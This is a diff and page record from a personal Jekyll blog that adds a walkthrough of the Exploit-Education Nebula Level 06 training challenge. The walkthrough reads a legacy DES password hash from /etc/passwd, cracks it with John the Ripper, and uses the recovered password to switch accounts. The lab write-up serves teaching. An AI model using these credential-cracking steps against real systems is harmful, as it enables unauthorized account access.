

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/nebula/2019-08-13-level06.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
removed test pages and updated nebula levels

````diff
--- a/_posts/nebula/2019-08-13-level05.md
+++ b/_posts/nebula/2019-08-13-level05.md
@@ -1,6 +1,6 @@
 ---
 layout: single_c
-title:  "Exploit-Education Nebula Level 04"
+title:  "Exploit-Education Nebula Level 06"
 date:   2019-08-13 10:43:16 +0530
 categories: Exploit-Education
 tags: Nebula
--- a/_posts/nebula/2019-08-13-level06.md
+++ b/_posts/nebula/2019-08-13-level06.md
@@ -0,0 +1,55 @@
+---
+layout: single_c
+title:  "Exploit-Education Nebula Level 06"
+date:   2019-08-13 10:43:16 +0530
+categories: Exploit-Education
+tags: Nebula
+classes: wide
+---
+### [Exploit Education Level 5](https://exploit.education/nebula/level-06/)
+## Challenge
+The `flag06` account credentials came from a legacy unix system.
+
+To do this level, log in as the `level06` account with the password `level06`. Files for this level can be found in `/home/flag06`.
+
+## Vulnerability
+It is mentioned that the user account was created using a legacy unix system.
+In older systems the account passwords used to be saved in the `/etc/passwd` file and was encrypted using a
+weak algorithm (DES Algorithm)
+
+Lets look at the passwd file
+```
+level06@nebula:/etc$ cat passwd | grep flag06
+flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
+```
+And we can see the username and an encrypted password. Lets copy it into a file named `p.john` and try cracking it
+using [John the Ripper](https://www.openwall.com/john/)
+```
+C:> .\john.exe 'p.john'
+Warning: detected hash type "descrypt", but the string is also recognized as "descrypt-opencl"
+Use the "--format=descrypt-opencl" option to force loading these as that type instead
+Using default input encoding: UTF-8
+Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
+Will run 4 OpenMP threads
+Proceeding with single, rules:Single
+Press 'q' or Ctrl-C to abort, almost any other key for status
+Almost done: Processing the remaining buffered candidate passwords, if any.
+Warning: Only 642 candidates buffered for the current salt, minimum 1024 needed for performance.
+Proceeding with wordlist:/run/password.lst, rules:Wordlist
+hello            (flag06) //Password and Username
+
+1g 0:00:00:00 DONE 2/3 (2019-08-07 09:17) 4.166g/s 73616p/s 73616c/s 73616C/s 123456..betabeta
+Use the "--show" option to display all of the cracked passwords reliably
+Session completed
+```
+And it was cracked quickly since it was using a weak algorithm and a even more weaker password
+
+Lets login using these credentials
+
+```
+level06@nebula:/etc$ su - flag06
+Password:
+flag06@nebula:~$ getflag
+You have successfully executed getflag on a target account
+```
+### Solved!
````
Also changed, not shown: _posts/2019-08-06-Another-post.md (deleted, +0 -25 lines), _posts/2019-08-06-post2 - Copy (3).md (deleted, +0 -17 lines), _posts/2019-08-06-post2 - Copy (4).md (deleted, +0 -25 lines), _posts/2019-08-06-post2 - Copy (5).md (deleted, +0 -34 lines), _posts/2019-08-06-post2 - Copy.md (deleted, +0 -16 lines), _posts/2019-08-06-post2.md (deleted, +0 -16 lines), _posts/nebula/2019-08-13-level07.md (+207 -0 lines).
